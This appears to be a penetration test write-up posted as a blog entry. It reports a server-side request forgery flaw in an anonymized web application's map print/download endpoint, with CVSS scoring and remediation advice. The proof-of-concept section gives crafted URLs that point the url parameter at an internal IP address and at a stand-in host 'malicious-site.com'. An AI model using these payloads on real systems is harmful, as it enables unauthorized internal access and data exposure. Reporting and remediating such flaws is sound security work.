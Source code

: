 ```yaml
---
layout: post
title: 'IT Company Web Applicaion PT'
tags:
 - web
 - real-engagement
hero: https://images.unsplash.com/photo-1462206092226-f46025ffe607?ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D&auto=format&fit=crop&w=1474&q=80
overlay: red
---
```


No images (image for the step by step PoC are essential as evidence but will not be provided
) or references will be provided, as this assessment was a real engagement. Additionally, all URLs and functionalities have been anonymized to ensure privacy and compliance with non-disclosure agreements (NDAs). {: .lead} <!--break-->

# IT Company

## Type of activity and objectives
The objective of this engagement was to conduct a web application penetration test for the organization. The aim was to identify potential vulnerabilities that could potentially be exploited from the outside, with the goal of preventing unauthorized access, compromise and data exfiltration.
## Scope of evaluation
The evaluation was focused on the exposed web application. This scope encompassed assessing the security and potential vulnerabilities within this surface.
## Executive Summary 
The assessment of the target application identified a Server-Side Request Forgery (SSRF) vulnerability. SSRF is a security vulnerability that allows an attacker to manipulate the server into making unintended network requests to internal or external resources. Exploiting this vulnerability could potentially lead to data exposure, service disruption, and unauthorized access to sensitive information.
## Finding Summary
- SSRF
## Attack storyline or vulnerabilities with CVSS,CVE and remedations
### SSRF
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:L
#### Proof of Concept (PoC)

1. URL: `.it/maps/api/v1/print/download?url=http%3a%2f%2f10.150.56.238%3a8080%2f`
   
   This URL appears to be susceptible to SSRF. By providing a specially crafted `url` parameter, we can attempt to access internal or external resources.

   Example:
   ```
   .it/maps/api/v1/print/download?url=http://malicious-site.com/malicious-file
   ```

2. URL: `.it/maps/api/v1/print/download?url=https%3a%2f%2f.it%2fgeoserver%2fp_bzAdministrativeUnits`

   Similar to the previous URL, this one is also vulnerable to SSRF. The provided `url` parameter seems to accept URLs as inputs, which can be manipulated to request arbitrary resources.

   Example:
   ```
   .it/maps/api/v1/print/download?url=https://malicious-site.com/malicious-file
   ```

By using the provided URLs and manipulating the `url` parameter, an attacker could attempt to trigger unintended requests to external or internal resources. This vulnerability could potentially lead to unauthorized data access or other security risks. To mitigate this vulnerability, ensure proper input validation, restrict outgoing requests to trusted domains, and follow best practices for SSRF prevention.

#### Remediations
- Input Validation and Whitelisting: Validate and sanitize user-provided input thoroughly before making any external requests. Use whitelists of allowed domains or IP addresses to restrict the destinations of requests.

- Use Proper Libraries: If your application needs to make requests to external resources, use well-maintained libraries or modules that offer built-in protections against SSRF. These libraries might have features like URL validation and restriction.

- Bound IP Ranges and Ports: If possible, configure the server to only allow requests to specific IP ranges or ports. This can help prevent SSRF attacks by restricting where requests can be sent.

- Use DNS Resolution Safeguards: Prevent the SSRF vulnerability by using DNS resolution safeguards, such as forcing DNS resolution through a proxy that only resolves safe domains.

- Avoid User-Controlled URLs: Avoid making requests to URLs provided by users unless absolutely necessary. If user-controlled URLs are needed, ensure that they go through rigorous validation and sanitization.

- Network Segmentation: Isolate your application's server from internal systems by using network segmentation. This can prevent SSRF attacks from reaching sensitive internal resources.